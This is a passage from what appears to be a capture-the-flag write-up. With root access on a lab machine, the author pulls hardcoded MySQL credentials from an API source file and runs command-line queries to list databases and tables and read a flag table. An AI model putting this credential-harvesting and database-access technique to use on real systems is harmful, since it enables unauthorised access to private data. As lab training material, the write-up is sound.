 
## Finishing it off - FLAG9 and FLAG11

While inspecting the source code of the IDE, some credentials stood out:

{% highlight bash %}
root@victim-1:~/pythonAPI# head -n 20 DBAPI.py
head -n 20 DBAPI.py
import mysql.connector
import hashlib
import random


def getPasswordHash(password):
	return hashlib.sha256(password).hexdigest()


def validateUser(uid, email, passwd, admin):

	dbConn = dbCursor = None

	try:
		dbConn = mysql.connector.connect(
			host="localhost",
			user="michael",
			password="5up3r_53cur3_p4ssw0rd",
			database="users"
		)
root@victim-1:~/pythonAPI#
{% endhighlight %}

I used those credentials to connect to the local MySQL server. Since my terminal was not interactive, I used the '-e' switch to run one SQL query each program call:

{% highlight bash %}
root@victim-1:~# mysql -u michael -p5up3r_53cur3_p4ssw0rd -e 'show databases;'
<ichael -p5up3r_53cur3_p4ssw0rd -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.
+-------------------------+
| Database                |
+-------------------------+
| information_schema      |
| mysql                   |
| performance_schema      |
| secret_flag_9686d1f73c3 |
| sys                     |
| users                   |
+-------------------------+
root@victim-1:~# mysql -u michael -p5up3r_53cur3_p4ssw0rd -e 'use secret_flag_9686d1f73c3; show tables;'
<w0rd -e 'use secret_flag_9686d1f73c3; show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
+-----------------------------------+
| Tables_in_secret_flag_9686d1f73c3 |
+-----------------------------------+
| flag                              |
+-----------------------------------+
root@victim-1:~# mysql -u michael -p5up3r_53cur3_p4ssw0rd -e 'select * from secret_flag_9686d1f73c3.flag;'
<rd -e 'select * from secret_flag_9686d1f73c3.flag;'
mysql: [Warning] Using a password on the command line interface can be insecure.